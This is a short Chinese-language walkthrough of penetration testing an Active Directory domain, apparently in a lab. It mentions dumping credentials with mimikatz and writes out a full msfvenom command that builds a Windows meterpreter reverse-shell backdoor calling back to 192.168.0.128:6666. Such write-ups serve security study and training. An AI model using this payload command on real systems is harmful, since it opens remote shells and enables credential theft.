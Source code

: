 # 域渗透

## 域内信息收集

发现域名为data.vsmoon.com

[![](assets/1698990322-1d0b4ea5b5e4d291e8ae10d103f3e469.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173305-d38fcd94-7962-1.png)

然后用mimikatz获取凭证

## msf跨路由访问域控

使用msf生成后门。  
msfvenom -p windows/x64/meterpreter/reverse\_tcp lhost=192.168.0.128 lport=6666  
\-f exe > shell.exe  
[![](assets/1698990322-78bcb495cfd273f1748295960015eeda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231102173320-dc124974-7962-1.png)  
域控地址为：10.10.10.137
